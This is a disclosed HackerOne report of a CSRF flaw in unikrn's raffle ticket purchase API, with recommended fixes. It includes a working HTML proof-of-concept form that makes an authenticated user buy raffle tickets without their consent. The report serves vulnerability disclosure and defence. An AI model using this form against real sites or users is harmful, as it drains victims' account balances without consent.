 # CSRF in Raffles Ticket Purchasing

## Report Details
- **Report ID**: 272588
- **URL**: https://hackerone.com/reports/272588
- **State**: Closed
- **Severity**: high
- **Submitted**: 2017-09-28T04:08:10.330Z
- **Disclosed**: 2018-04-10T02:10:08.175Z

## Reporter
- **Username**: tolo7010
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: unikrn

## Vulnerability Information
Description:
========

An API endpoint get executed with no CSRF prevention, the endpoint did not verify session_id required in the post form. An attacker can crafted malicious form (Poc), which is executed by authenticated user action leading to huge balance lost.

Poc:
===

<!doctype html>
<html>
<head>
</head> 
<body>
<form action="https://unikrn.com/apiv2/raffle/enter" method="POST" name="myForm">
<input type="hidden" name="raffle" id="raffle" value="4775">
<input type="hidden" name="tickets" id="tickets" value="1">
<input type="hidden" name="session_id" id="session_id" value="">
<input value="Submit" type="submit"">
</form>
</body>
</html>

Recommendations:
=============

- Implementing CSRF tokens.
- Validate session_id on post form/JSON api input.

## Attachments
No attachments
